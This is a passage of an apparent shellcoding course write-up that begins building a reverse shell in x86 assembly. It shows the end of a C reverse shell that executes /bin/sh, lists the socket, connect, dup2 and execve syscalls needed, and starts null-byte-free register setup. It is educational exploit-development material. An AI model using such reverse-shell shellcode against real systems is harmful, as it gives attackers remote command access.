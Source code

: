 ```c
    
    //final syscall execve
    execve("/bin/sh", 0, 0);
    return 0;
}
```
After confirming that the code does indeed work by setting the REMOTE_ADDR to "127.0.0.1" and the port to 443 and trying it on my Kali machine, it's become apparent we need to execute 4 syscalls in our assembly code:
+ ***socket***
+ connect
+ ***dup2***
+ ***execve***

The syscalls I've highlighted, we already have code for from Assignment #1. Connect actually behaves very similarly to bind, with pretty much the only difference being we won't be specifying a local interface IP address but rather a remote IP address so it's unlikely to be `0.0.0.0` in our reverse shell code. 

## Building Our Assembly Code

### Assembly Skeleton Code
```nasm
global_start

section .txt
_start:
```
The first thing we want to do is to clear out the registers we're going to use immediately. How do we know what registers we want to use? You can think of your syscall as something like an argv[0] in a command line program. So that's always going to correspond with the first register, EAX. Subsequent arguments will follow sequentially: argv[1] will correspond to EBX, argv[2] will correspond to ECX, etc.

If we consult `man 2 socket` for our first syscall, socket, we see that it takes 3 arguments in the following fashion:`int socket(int domain, int type, int protocol);`

So counting the syscall itself and its 3 arguments, we need to clear the first 4 registers so that we can work with those. Let's clear them by XOR'ing them with themselves so that we clear them in a way that does not introduce NULL BYTEs into our shellcode.

```nasm
global_start

section .txt
_start: 
  
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx
```
